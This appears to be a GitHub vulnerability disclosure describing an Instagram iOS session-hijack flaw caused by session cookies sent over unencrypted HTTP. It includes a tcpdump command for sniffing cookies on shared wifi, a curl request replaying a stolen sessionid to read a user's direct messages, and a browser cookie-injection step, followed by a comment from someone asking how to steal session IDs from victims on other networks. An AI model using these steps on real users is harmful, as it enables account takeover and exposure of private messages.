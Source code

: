 
# Instagram iOS session hijack

Instagram makes API calls to non-HTTPS endpoints with session cookies in the 
request headers allowing full session hijack by a malicious actor.

Steps to reproduce (on Mac OS X):

 - Jump on an open or WEP encrypted wifi access point 
 - Put your network interface into promiscuous mode filtering on i.instagram.com
   <pre>
    sudo tcpdump -In -i en0 -s 2048 -A dst i.instagram.com
   </pre>
 - Wait for someone to use the Instagram iOS app on the same network
 - Extract cookie request header from the resulting output
 - Use sessionid cookie parameter to make any api call as that user
   Even https endpoints like direct messages.
   <pre>
    curl -H 'User-Agent: Instagram 6.0.4 (iPhone6,2; iPhone OS 7_1_1; en_GB; en-GB) AppleWebKit/420+' \
     -H 'Cookie: sessionid=REDACTED' \ 
     https://i.instagram.com/api/v1/direct_share/inbox/
   </pre>

This returns the user's direct message inbox as JSON
 
I was able to perform a session hijack on my own account on my laptop while
someone else browsed instagram on my iPhone.

I was also able to:
- take the cookie sniffed from the iOS app
- go to instagram.com as an unlogged in user.
- set document.cookie = $COOKIE
- navigate to a profile
- see I'm logged in as that user

There is some screwy behaviour where 'instagram.com/' gets into redirect loop,
I will see if I can fix that. However going to 'instagram.com/someones_profile'
works and shows me as logged in.

I think this attack is extremely severe because it allows full session hijack 
and is easily automated. I could go to the Apple Store tomorrow and reap thousands
of accounts in one day, and then use them to post spam.
 
Recommendations:

 - Use SSL everywhere
 - Revoke all logged-in sessions?



Yes you right, I can use section_id for any Facebook/ Instagram account and us it as nonlogin user, even if the account was secured with 2FA or SMS login or mobile notification, it's open as trusted device.

But how to hijacking setion_id if the victim machine and attacker in defrant network.
In JavaScript framwork (react js) the hijacking cookies will not working, the app(Instagram) using spasfic routs to nevagate between screen and not allowed to write a <script> to get the setion_id.
